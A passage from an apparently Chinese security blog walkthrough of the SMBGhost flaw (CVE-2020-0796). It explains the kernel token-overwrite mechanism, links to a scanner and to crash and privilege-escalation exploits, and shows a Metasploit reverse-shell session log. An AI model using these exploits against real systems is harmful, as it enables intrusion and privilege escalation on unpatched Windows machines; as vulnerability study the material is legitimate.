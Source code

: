此时alloc_buffer+0x18已经指向验证程序的tokenAddr内核地址，而SMB_payload此时指向evilData中的权限数据，offset则为0x10。因此，这个内存移动完成后，权限数据将写入tokenAddr处。这意味着，SMS Server成功修改了验证程序的权限，从而实现了验证程序的提权！

还有一个细节需要注意，在解压时，Srv2DecompressData函数会判断实际的解压后数据大小FinalUnCompressedSize是否和数据包中原始数据大小OriginalCompressedSegmentSize一致

![](/img/20210924015424993793.png)

按理来说实际解压后的数据大小为0x1100，不等于数据包中的原始压缩数据大小0xffffffff，这里应该进入到后面内存释放的流程。然而，实际上在函数SmbCompressionDecompress中，调用RtlDecompressBufferEx2成功后会直接将OriginalCompressedSegmentSize赋值给FinalUnCompressedSize。这也是该漏洞关于任意地址写入成功的关键之一。

![](/img/20210924015425313462.png)

###  CVE-2020-0796 目标探测(奇安信)

使用奇安信的漏洞扫描来探测

[奇安信 CVE-2020-0796 扫描下载](http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip)

![](/img/20210924015425491610.png)

### CVE-2020-0796 蓝屏EXP

[Github CVE-2020-0796 蓝屏EXP 下载](https://github.com/eerykitty/CVE-2020-0796-PoC)

运行脚本后目标成功蓝屏

![](/img/20210924015425755846.png)

### CVE-2020-0796 本地提权EXP

[Github CVE-2020-0796 本地提权EXP 下载](https://github.com/danigargu/CVE-2020-0796)

运行应用程序后弹出cmd窗口为 system权限

![](/img/20210924015425940683.png)

或者使用 MSF的内置EXP windows/local/cve_2020_0796_smbghost 来本地提权 

```
msf6 exploit(multi/handler) > set lhost 192.168.142.19
lhost => 192.168.142.19
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.142.19:4444 
[*] Sending stage (200262 bytes) to 192.168.142.61
[*] Meterpreter session 2 opened (192.168.142.19:4444 -> 192.168.142.61:51757) at 2020-11-08 15:28:20 +0800

meterpreter > 
meterpreter > getuid
Server username: DESKTOP-RL1VAD8\wy
meterpreter > background
msf6 exploit(multi/handler) > search cve_2020

Matching Modules
================

   #  Name                                                          Disclosure Date  Rank       Check  Description
   -  ----                                                          ---------------  ----       -----  -----------
   0  auxiliary/admin/sap/cve_2020_6287_ws_add_user                 2020-07-14       normal     Yes    SAP Unauthenticated WebService User Creation
   1  exploit/linux/misc/cve_2020_13160_anydesk                     2020-06-16       normal     Yes    AnyDesk GUI Format String Write
```